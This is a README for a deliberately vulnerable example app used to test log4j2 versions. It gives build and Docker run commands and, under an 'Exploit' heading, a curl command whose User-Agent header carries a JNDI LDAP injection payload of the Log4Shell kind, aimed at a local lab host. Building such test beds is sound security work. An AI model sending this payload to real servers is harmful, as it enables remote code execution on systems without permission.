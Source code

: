 # Example App for log4j2 testing purposes

### Build

You first need to build all the JAR files (if desired, test single versions see `Build JAR for single version`). 

```
sh -x ./build/build.sh
```

> NOTE: Customize for the versions you want to create


If you want to run a build manually; this is the command

```
LOG4J_VERSION=2.6.1 mvn clean assembly:assembly -DdescriptorId=jar-with-dependencies
```

You must set the LOG4J_VERSION env var or the pom is invalid


### Run

Manually running one version on a host directly: 

> NOTE: This assumes you have the proper JRE version installed!

```
PORT=8080 java -jar <jar> # You must set the PORT or it will error!
```

Running inside of a docker container (see docker-compose.yml for additional info)

```
docker-compose up [image]
```


### Exploit

Send a properly formated jdni:ldap message as your user agent, example:

```
curl 127.0.0.1:8080/ -H 'User-Agent: ${jndi:ldap://127.0.0.1:1389/Exploit}'
```


### Build JAR for single version

Where the first argument is the Java version and the second is the LOG4J_VERSION.  Once built, and individual version
can be started with docker-compose via `docker-compose up log4j_1.8_2.15.0` (see docker-compose.yml for configured
versions).

```
sh -x ./build/build_one.sh 1.8 2.15.0
```
